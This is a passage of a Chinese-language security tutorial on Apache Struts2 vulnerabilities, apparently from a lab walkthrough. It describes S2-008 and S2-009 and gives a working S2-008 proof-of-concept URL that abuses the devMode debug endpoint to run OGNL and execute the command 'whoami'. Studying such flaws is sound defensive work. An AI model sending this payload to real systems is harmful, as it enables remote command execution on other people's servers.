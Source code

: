 ![image-20210708170709366](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-68588ac13e4c170afe57f1836cc1e23599622784.png)

##### 查看日志

![image-20210708170948120](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7191276ed464850e49202fd9a5138254ef3eea68.png)

### 4.4 S2-008远程代码执行漏洞

#### 漏洞描述

##### S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋。

#### 影响版本

```php
2.1.0 - 2.3.1
```

#### 开启漏洞

![image-20210708171158605](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0ee45bbfe9450c427261b61622aafd6de24b9a34.png)

##### poc

```php
/devmode.action?debug=command&amp;e xpression=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&amp;rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&amp;content=123456789&amp;command=whoami
```

![image-20210708171549820](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5d76843b4d0e1e92773a9a5f0c527bb801025041.png)

### 4.5 S2-009远程代码执行漏洞

#### 漏洞描述

##### OGNL提供了广泛的表达式评估功能等功能。该漏洞允许恶意用户绕过ParametersInterceptor内置的所有保护（正则表达式，拒绝方法调用），从而能够将任何暴露的字符串变量中的恶意表达式注入进行进一步评估。

##### 在S2-003和S2-005中已经解决了类似的行为，但事实证明，基于列入可接受的参数名称的结果修复仅部分地关闭了该漏洞。

##### ParametersInterceptor中的正则表达式将top \['foo'\]（0）作为有效的表达式匹配，OGNL将其作为（top \['foo'\]）（0）处理，并将“foo”操作参数的值作为OGNL表达式求值。这使得恶意用户将任意的OGNL语句放入由操作公开的任何String变量中，并将其评估为OGNL表达式，并且由于OGNL语句在HTTP参数中，攻击者可以使用黑名单字符（例如＃）禁用方法执行并执行任意方法，绕过ParametersInterceptor和OGNL库保护。
